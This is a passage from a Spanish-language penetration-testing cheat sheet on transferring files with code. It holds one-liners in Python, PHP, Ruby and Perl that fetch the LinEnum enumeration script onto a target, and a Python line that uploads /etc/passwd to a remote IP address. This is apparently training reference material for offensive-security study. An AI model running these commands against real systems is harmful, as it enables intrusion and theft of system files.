 ```bash
ruby -run -ehttpd . -p8000
```

# Mediante Código

## Python

Descargar:

```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

Subir:

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## PHP

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

## Ruby

```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

## Perl

```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## Javascript
